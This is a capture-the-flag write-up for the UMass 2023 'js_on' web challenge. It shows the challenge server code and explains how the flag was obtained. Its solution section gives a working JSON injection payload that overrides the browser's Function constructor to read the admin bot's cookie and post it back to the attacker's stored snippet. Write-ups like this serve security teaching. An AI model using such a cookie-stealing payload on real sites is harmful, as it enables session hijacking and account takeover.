

# UMass 2023 - js\_on

## 💙 Description

> Why call it JSON if I can't put my own JS there? Introducing JS-ON! Now you can share your JS with your friends to enjoy next level development!
>
> Bot: [http://bot-json.web.ctf.umasscybersec.org:9000](http://bot-json.web.ctf.umasscybersec.org:9000)
>
> File : [app.js](https://umass-ctf-challenges.s3.amazonaws.com/web/app.js)
>
> Main Site : [http://app-json.web.ctf.umasscybersec.org:3000](http://app-json.web.ctf.umasscybersec.org:3000)

## The Challenge

What we first run into by looking at this challenge is a website that allows you to run code with compiled `JS-ON` for an user.

<figure><figcaption><p>The main website</p></figcaption></figure>

There is also a 'bot' website that seems to run the user's generated code as admin.

<figure><figcaption><p>The Bot website</p></figcaption></figure>

```javascript
// Removed all the imports and basic express stuff to save space

let adminLibs = {};

adminLibs[process.env.ADMIN_ACCOUNT] = {
  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}


app.use(cookiep());
app.use('/static', express.static('public'))

app.get('/', async (req, res) => {
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    uid = uuidv4();
    await client.set(uid,JSON.stringify({
      "code":"console.log(message)",
      "js-on":{'var_message':'Hello World'}
    }))
    res.set({'Set-Cookie':`user=${uid}`});
  }
  res.redirect(`/user/${uid}`);
})

app.get('/code/admin',(req,res)=>{
  let cookie = req.cookies.user;
  if(cookie && cookie === process.env.ADMIN_ACCOUNT){
    return res.json(adminLibs[cookie]);
  }
  res.json({'error':'Did not recieve admin cookie'})
})

app.get('/user/:id',async (req,res)=>{
  let uid = req.params.id ? req.params.id : '';

  let user = await client.get(req.params.id);
  if(!user){
    return res.redirect('/');
  }
  res.sendFile(path.join(__dirname,'public/html/index.html'))
})

app.get('/code/:id',async (req,res)=>{
  let uid = req.params.id; 
  let user = await client.get(uid)
  if(!user){
    return res.json({'error':'Could not find js-on for this'})
  }
  res.json(JSON.parse(user))
})

app.use(express.json());

app.post('/code',async (req,res)=>{
  let uid = req.cookies.user ? req.cookies.user : '';
  let user = await client.get(uid);
  if(!user){
    return res.json({'error':'Could not find js-on for that user!'});
  }
  try{
    req.body['js-on'] = JSON.parse(req.body['js-on'])
  }
  catch(e){
    return res.json({'error':'Failed to parse js-on!'})
  }
  await client.set(req.cookies.user,JSON.stringify(req.body));
  res.json({'success':'JS-ON loaded onto server!'});
})
```

Based on the code provided, the application is a web server that allows users to write JavaScript code and execute it on the server-side using a technology called JS-ON.

The server creates a unique identifier as a cookie for each user that connects to it, and saves the user's code and JS-ON payload in Redis. Users can retrieve their code and payload by specifying their unique identifier in the URL path.

There is also an admin feature that allows a user with a specific cookie to access a pre-defined library of JavaScript code with an embedded flag. However, this feature is protected by a cookie, which is checked against a predefined value that we can't access.

<pre class="language-java"><code class="lang-java"><strong>adminLibs[process.env.ADMIN_ACCOUNT] = {
</strong>  "code":`/*
    !!! The best code ever !!!
  */ 
  console.log(1+2);//I think this should output 5
  console.log(flag);//this is my awesome flag`,
  "js-on":{'var_flag':process.env.FLAG}
}
</code></pre>

## The solution

Looking at the client-side some more, it seems that we can abuse the `func_` keys to cause the JS-ON parser in the browser to overwrite the `Function()` constructor, and then run code without the bot needing to click `Run this code!`

The goal is to POST this to the JS-ON server as a snippet:


```json
{"code":"console.log(hello);","js-on":"{\r\n    \"func_Function\": \"let adminCookie = document.cookie;document.cookie = 'user=7ed131b9-415d-465d-8a2b-3ffd68ad4acd; path=/';fetch('/code', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ code: ace.edit('editor1').getValue(), 'js-on': JSON.stringify({ var_cookie: adminCookie }) }) });\",\r\n    \"func_require\": \";;;\"\r\n}"}
```


Then, when the bot opens the page it overwrites the Function then calls it with the second dummy func.

Refresh, then you got the cookie:

<figure><figcaption></figcaption></figure>

You can then put this cookie and access the admin snippet:


```json
{"code":"/*\n    !!! The best code ever !!!\n  */ \n  console.log(1+2);//I think this should output 5\n  console.log(flag);//this is my awesome flag","js-on":{"var_flag":"UMASS{M4YB3_JS_$h0uld_b3_0FF_BruH_XDDDDDD489253}"}}
```

